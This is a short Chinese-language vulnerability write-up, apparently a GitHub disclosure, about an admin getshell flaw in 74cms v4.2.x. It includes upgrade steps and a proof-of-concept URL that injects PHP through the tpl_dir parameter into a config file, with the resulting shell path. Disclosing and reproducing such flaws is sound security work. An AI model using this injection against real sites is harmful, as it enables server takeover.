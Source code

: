 # 74cms v4.2.1 v4.2.129 后台getshell漏洞

## 漏洞描述

厂商：74cms
下载地址：http://www.74cms.com/download/index.html
关于版本：
新版的74cms采用了tp3.2.3重构了，所以可知底层是tp，74cms新版升级是后台升级的，所以先将将升级方法。
注：此漏洞不用升级至最新版本也可使用。

## 漏洞复现

### 74cms升级到最新版

1， 先去官网下载 骑士人才系统基础版(安装包)
2， 将下载好的包进行安装
3， 进入后台点击查看如果不是最新版的话，请点击升级！
4， 如果是本地环境的话，会提示 域名不合法升级失败，这个问题很好解决
5， 搜索文件74cms\upload\Application\Admin\Controller\ApplyController.class.php
6， 查找所有$_SERVER['HTTP_HOST'] 改为 http://baidu.com 即可

### 漏洞演示

![image-20221207161107878](images/image-20221207161107878.png)

url:

```
 http://74cms.test/index.php?m=Admin&c=Tpl&a=set&tpl_dir= ', 'a',phpinfo(),'
```

shell:

```
http://74cms.test/Application/Home/Conf/config.php
```

路径：

```
\74cms\upload\Application\Home\Conf\config.php
```

![image-20221207161145037](images/image-20221207161145037.png)

![image-20221207161151234](images/image-20221207161151234.png)
